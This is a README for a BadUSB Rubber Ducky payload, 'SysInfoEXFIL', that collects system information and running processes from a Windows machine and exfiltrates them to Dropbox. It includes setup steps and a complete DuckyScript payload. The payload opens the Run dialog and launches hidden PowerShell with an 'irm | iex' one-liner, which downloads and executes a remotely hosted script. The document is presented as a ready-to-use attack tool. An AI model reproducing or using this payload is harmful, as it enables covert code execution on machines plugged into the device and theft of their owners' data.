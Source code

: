 # SysInfoEXFIL - BADUSB ✅

\
**Category**:  Exfiltration 

## Description

A script used to get system information and processes list then exfiltrates to dropbox.

### Dependencies
> [!NOTE]\
> <b>You will need a [Dropbox API token](https://www.dropbox.com/developers/) for this script, so you will have to change "your-token-here" in the ps1 script for this to work!</b>

* Internet Connection
* Windows
* Dropbox

### Executing program

* Plug in your device

### Settings

* Open **SysInfoEXFIL.ps1** and edit `$dropboxToken = "your-token-here"`.
* Replace `your-token-here` with your token.
* Then go to your github and upload your modified **SysInfoEXFIL.ps1** to it
* Once uploaded copy the raw link, it should look like this:
\
  `https://raw.githubusercontent.com/Kexx0/usb-rubber/refs/heads/main/SysInfoEXFIL/SysInfoEXFIL.ps1`
* Then open **payload.txt**
  It should look like this

```bash
DEFINE #LINK your-direct-link

GUI r
DELAY 500
STRING powershell.exe -WindowStyle Hidden -Command "irm '#LINK' | iex"
ENTER
```
Replace **your-direct-link** with the link you've copied in the previous step.

Then encode your new payload.txt using [Hak5 Payload Studio](https://payloadstudio.com/community/)

Put the **inject.bin** file on your Rubber Ducky.  
You're done!
 


## Credits
kex
